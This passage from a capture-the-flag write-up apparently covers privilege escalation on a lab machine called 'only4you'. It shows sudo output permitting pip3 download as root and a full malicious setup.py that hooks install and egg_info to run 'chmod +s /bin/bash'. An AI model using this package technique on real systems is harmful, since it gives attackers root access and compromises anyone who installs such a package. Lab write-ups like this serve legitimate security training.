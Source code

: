 ```bash
john@only4you:~$ id
uid=1000(john) gid=1000(john) groups=1000(john)
john@only4you:~$ ls
user.txt
john@only4you:~$
```

## Root Flag

We have to do something with `pip` to escalate:
```bash
john@only4you:~$ sudo -l
Matching Defaults entries for john on only4you:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on only4you:
    (root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
```

#### Building a malicious pip package

So lets create a malicious setup.py and then we build our pip package, we can see the reference here: https://github.com/wunderwuzzi23/this_is_fine_wuzzi
```python
import os
from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info

def RunCommand():
    print("Hello, p0wnd!")
    os.system("chmod +s /bin/bash")
class RunEggInfoCommand(egg_info):
    def run(self):
        RunCommand()
        egg_info.run(self)


class RunInstallCommand(install):
    def run(self):
        RunCommand()
        install.run(self)

setup(
    name = "oops",
    version = "0.0.1",
    license = "MIT",
    packages=find_packages(),
    cmdclass={
        'install' : RunInstallCommand,
        'egg_info': RunEggInfoCommand
    },
)
```
